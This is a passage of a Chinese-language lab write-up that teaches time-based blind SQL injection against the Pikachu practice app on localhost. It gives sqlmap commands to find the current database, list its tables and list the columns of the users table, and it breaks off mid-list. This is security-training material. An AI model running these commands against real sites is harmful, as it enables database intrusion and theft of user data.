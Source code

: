 以下步骤省略，详见<a href="https://github.com/Ki1z/CTF/blob/main/BUUCTF/Basic/sqli-labs.md">sqli-labs</a>的Less-5

### 盲注(base on time)

下面来讲解sqlmap的用法，首先查询当前数据库

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php --current-db --technique=T --forms --time-sec 2
```

- `-u` 指定需要注入的url

- `--current-db` 查询当前数据库

- `--technique=T` 指定使用的注入方式，这里的T是时间注入

- `--forms` 自动从url中获取表单

- `--time-sec` 指定延迟，这里是两秒。非必加，sqlmap会自动判断

> <img src="./IMG/_(GZMR2CN(U5)$5K1}5}VX4.png">

查询所有表

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php -D pikachu -tables --technique=T --forms
```

- `-D` 指定数据库，这里指定的是pikachu数据库

- `-tables` 查询所有表

> <img src="./IMG/7_PPJ}26WU3U[]KF9XG7MNS.png">

查询users下所有字段

```python
python sqlmap.py -u http://127.0.0.1/pikachu/vul/sqli/sqli_blind_t.php -D pikachu -T users -columns --technique=T --forms
```

- `-T` 指定表
